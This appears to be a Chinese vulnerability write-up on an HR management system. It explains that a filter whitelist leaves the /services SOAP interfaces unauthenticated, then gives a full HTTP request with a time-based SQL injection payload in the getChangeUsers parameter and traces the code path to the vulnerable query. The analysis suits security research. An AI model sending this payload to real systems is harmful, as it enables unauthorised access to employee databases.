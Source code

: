   
type="com.hrms.struts.action.FrameAction"为处理类，其中包含认证逻辑和路由，  
  
  
如：  
https://xxx/performance/solarterms/specialtask.do  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwV5NuKRajeY1uC7kgJmacYwxTBpjPZBHE1zpK9ZljEs1juXZPlKGL2xg/640?wx_fmt=png&from=appmsg "")  
  
  
filter中给services接口设置了白名单，可以直接访问，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVfKLeeNEVIEvc8peWicolrJWCpESia3p6jTDibRnUt3BFvS755ykwLFEBA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVZxkricAEeUjicB0I0KyJHy2yrmeIuK6jMDHI4ibbDO2kEwwhbAZXzylGg/640?wx_fmt=png&from=appmsg "")  
  
  
因此services.xml中的接口都是未授权，  
  
```
post：https://xxx/services/HrChangeInfoService<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrChangeInfoService">   <soapenv:Header/>   <soapenv:Body>      <hr:getChangeUsers>         <arg0>value1</arg0>         <arg1>value2'</arg1>         <arg2>value3'</arg2>      </hr:getChangeUsers>   </soapenv:Body></soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVA6nEyGMoMcNVF9SzT9DPI2DIb9PPZyUxJvGnOgeACmKSicBaPiabCyWw/640?wx_fmt=png&from=appmsg "")  
  
###### 前台sql注入services接口（XFire）  
  
  
 ![](https://cdn.nlark.com/yuque/0/2025/png/26203837/1748434712713-6d7859ed-1f68-449b-9f25-9d2c15027453.png)  
  
```
POST /services/HrChangeInfoService HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/xmlCookie: xxxContent-Length: 392<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrChangeInfoService">   <soapenv:Header/>   <soapenv:Body>      <hr:getChangeUsers>         <arg0></arg0>         <arg1>admin';waitfor delay '0:0:10'--</arg1>         <arg2>1</arg2>      </hr:getChangeUsers>   </soapenv:Body></soapenv:Envelope>
```  
  
入口函数getChangeUsers，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVmL4VGYUHALKe6zhiaTrcyrzvC8zvhiaYKbcmomsU9C1Xf85XsibI2iaTbw/640?wx_fmt=png&from=appmsg "")  
  
  
走到sql语句拼接后，经过一系列调用，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVmRwAs1I1zanUT4SLlx6ibC3LVmyBH7LMRiajIlceTzYASLVe4a3ic2epg/640?wx_fmt=png&from=appmsg "")  
  
  